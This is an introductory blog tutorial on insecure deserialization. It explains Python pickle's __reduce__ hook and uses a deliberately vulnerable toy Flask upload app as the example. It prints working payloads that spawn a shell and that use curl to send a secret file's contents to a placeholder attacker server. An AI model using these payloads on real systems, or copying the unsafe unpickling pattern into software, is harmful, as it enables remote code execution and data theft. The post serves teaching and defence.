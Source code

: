 ```yaml
---
title: "Insecure Deserialization: Introduction"
date: 2020-12-22T14:38:40-07:00
draft: false
comments: false
images: ["/images/InsecureDeserializationIntro.jpg"]
tags:
  - instructional
  - insecure-deserialization
---
```


Insecure deserialization is a prolific vulnerability that provides a pretty straightforward gateway into unintended RCE - if you're not careful. As of late, I've seen more and more CTFs employ this bug, and more real-word bug bounties deal with this kind of exploit. I figure I could provide a quick introduction into them, and hopefully ensure a few people secure their applications from this. 

## Context

{{< image src="/images/InsecureDeserializationIntro.jpg" alt="intro" position="center" style="border-radius: 8px;" >}}

### What Even is Serialization?
My CPSC210 class I learned the fundamentals of object-oriented programming and the concept of complex abstractions above simple data structures: From simple arrays to instances of objects or classes, with fields and properties holding specific type values. Classes and complex data structures are great and all, but how do you manage them in transit across the web? Can they even be efficiently and losslessly transfered between machines? Or maybe there's some sort of practise we can use to streamline this?

The process of serialization seeks to simplify the concept - it's the act of taking any object and converting it into some workable format of a stream of bytes for ease of transfer and transition. It can be thought of as "flattening" said object and transferring that flattened version to wherever it needs to go. This "flattened version" could be anything from JSON data, XML, maybe just a bunch of bytes, or a specific string - it all depends on the language.

{{< image src="/images/InsecureDeserializationIntro_Serial.jpg" alt="Serial" position="center" style="border-radius: 8px;" >}}

Of course, the opposite process is called deserialization: taking that flattened byte stream and recreating a copy of the original object from it. It will reconstruct any properties, fields from the stream and hopefully present a working replica of the original.

{{< image src="/images/InsecureDeserializationIntro_Deserial.jpg" alt="secret" position="center" style="border-radius: 8px;" >}}

The serialization process is a key component to ensure that all the parts of a system are working together and seamlessly, operating in all sorts of different formats but still managing to easily convert data from some base byte stream into a workable object for their use. But it's not without its own flaws. In many cases, it's not totally lossless. 

### Backup Directives

When serializing objects, one thing to note is that some properties or connections will not completely transfer over during the process. In that case, there should be some sort of backup plan or emergency what-to-do in those situations. This blueprint will vary from language to language, but often you'll see it as some directive that tells the deserializer what to do when it encounters a foreign property. As an example, Python's [pickle](https://docs.python.org/3/library/pickle.html) module - the native serializing library in Python - uses a magic function called `__reduce__()` to stipulate what should be done in case not everything was perfectly translated from their bytestream form. 

`__reduce__()` in particular tells the pickle module how to handle things directly within the definition of the class. Specifying this interface will allow us to manually reconstruct potentially complicated properties, such as database connections or open file handles. Of course, there exist unintended ways of using the ``__reduce__()`` directive. 

## Insecure Deserialization

Serialization is not inherently bad, and it's a very important tool in many infrastructures today. What makes it vulnerable is, like with many different practises, improper handling of its inputs. Insecure deserialization typically arises when applications feed user input into their deserializers, which wasn't properly cleaned/sanitized. 

Refer back to Python's pickle module once more. It uses the `__reduce__()` directive for edge cases where properties are not properly reconstructed from their stream form. However, if the input that you're giving your pickler is from some external user, you lay yourself bare for RCE. 

`__reduce__()` can be used to stipulate potentially dangerous commands, such as opening a reverse shell to a server you control. This is, unfortunately, necessary functionality for the pickle module to have in order to operate smoothly. Consider the following example:

```py
import pickle
import os

class DontDoThis(object):
	def __reduce__(self):
		return (os.system, ("/bin/sh", ))


EvilExample = DontDoThis()

pickle.dump(EvilExample, open("save.p", "wb"))

my_data = pickle.load(open("save.p", "rb"))
```
Observe that this script will deserialize an instance of `DontDoThis`, and will come across the ``__reduce()__`` method. It will then do whatever ``__reduce()__`` tells it to do, which is to open an `sh` shell.

Let's see another example:

_(Some parts omitted)_
```py
import pickle
import os
from flask import Flask, request, redirect, url_for
from werkzeug.utils import secure_filename

app = Flask(__name__)
UPLOAD_FOLDER = '/directory/to/webserver'

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <!doctype HTML>
        <title>Upload new File</title>
        <h1>Upload new File</h1>
        <form method=post enctype=multipart/form-data>
          <input type=file name=file>
          <input type=submit value=Upload>
        </form>
        '''
    if request.method == 'POST':

        file = request.files['file']

        filename = secure_filename(file.filename)
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))

        return "thaaanks!"

...

@app.route('/uploads/<filename>')
def note():
    my_data = pickle.load(filename, "rb")

    return "your file was succesfully deserialized~"
```

I made this toy application to explain this process. The expected application flow is that our program is going to take a file defined by the user and store it in the webserver. For ease of use and convenience, the application _assumes_ that the files provided by the user are able to be deserialized. You can request for an object back, and when you do so, it gets deserialized. 

{{< image src="/images/InsecureDeserializationIntro_fileUpload.png" alt="secret" position="center" style="border-radius: 8px;" >}}

So, the expected input is any sort of user-provided file. What happens when we provide it a file generated from this script?

```py
class Hello(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"hello\"", ))

EvilExample = Hello()


pickle.dump(EvilExample, open("hello.p", "wb"))
```

If you're this far into the blog post, you probably already have a good idea of what could happen to our program. The file we create, `hello.p`, will get serialized, but as soon as we request for it... 

{{< image src="/images/InsecureDeserializationIntro_hello.png" alt="hello" position="center" style="border-radius: 8px;" >}}

Our class will be deserialized, and make a POST request to a webhook with "hello" in the request body. This webhook we have access to, so we can see the POST request after deserialization.

We can extrapolate this example further and open a reverse shell, or have the program unintentially pipe sensitive files to a server we control. 

```py
class Secret(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"$(cat secret.txt)\"", ))

EvilExample = Secret()


pickle.dump(EvilExample, open("secret.p", "wb"))
```

Let's say that there's a file called `secret.txt` in the directory of the application that looks like so:

```text
this is a secret~
```

When we submit the generated file from this script (`secret.p`) and request for it, we can see in our webhook that the contents of `secret.txt` have succesfully been outputed to us in the body of a POST request: 

{{< image src="/images/InsecureDeserializationIntro_secret.png" alt="secret" position="center" style="border-radius: 8px;" >}}

The possibilities are endless. Of course, this is just a toy application I'm running locally to showcase this, but regardless the dangers are still plain to see. RCE is remarkably easy to achieve and scarily straightforward to do if your deserializer is not properly secured. In fact, that's part of the exploit used in hacking [DragonCTF's Harmony Chat](/posts/2020/11/dragonctf-2020-harmony-chat/), although their serializer was a Javascript variant, not a Python one. 

So what's the takeaway here? If you can help it, never deserialize user-provided input. Of course, there do exist situations where you absolutely cannot avoid it, and I would recommend properly sanitized input or some signature that can act as a canary should anything in the user input change. 

Insecure deserialization is a pretty dangerous vulnerability, and also a pretty easy one to exploit if you know where to look for it. As mentioned earlier, it's seeing prolific exposure in the CTF world, and justifiably so - there are many [real world vulnerabilities](https://www.linkedin.com/pulse/equifax-data-breach-apache-struts-vulnerability-kenneth-g-/) today that are based on serialization functionality but don't have the security to match up for it. If you're using serialization libraries or modules, make sure to be careful! 

## Vie

